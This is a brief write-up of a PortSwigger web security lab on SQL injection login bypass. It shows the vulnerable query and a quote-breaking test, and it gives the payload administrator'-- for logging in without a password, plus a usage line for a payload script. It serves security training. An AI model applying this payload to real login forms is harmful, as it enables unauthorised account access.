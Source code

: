 # Lab: SQL injection vulnerability allowing login bypass

Link: https://portswigger.net/web-security/sql-injection/lab-login-bypass


SQL injection - Login functionality

End Goal: perform SQLi attack and log in as the administrator user. 

## Analysis

```
SELECT firstname FROM users where username='admin' and password='admin'

SELECT firstname FROM users where username=''' and password='admin'

SELECT firstname FROM users where username='administrator'--' and password='admin'

SELECT firstname FROM users where username='admin'

script.py <url> <sql-payload> 
```